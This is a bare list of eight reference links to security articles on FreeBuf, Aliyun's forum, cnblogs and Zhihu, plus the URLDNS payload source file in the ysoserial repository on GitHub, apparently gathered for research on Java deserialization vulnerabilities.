[https://www.freebuf.com/vuls/417960.html](https://www.freebuf.com/vuls/417960.html)

[https://xz.aliyun.com/news/9805](https://xz.aliyun.com/news/9805)

[https://xz.aliyun.com/news/9328](https://xz.aliyun.com/news/9328)

[https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)

[https://www.cnblogs.com/liTzTimmy/articles/18586310](https://www.cnblogs.com/liTzTimmy/articles/18586310)

[https://zhuanlan.zhihu.com/p/429217558](https://zhuanlan.zhihu.com/p/429217558)

[https://zhuanlan.zhihu.com/p/349838623](https://zhuanlan.zhihu.com/p/349838623)

[https://www.freebuf.com/articles/web/405908.html](https://www.freebuf.com/articles/web/405908.html)

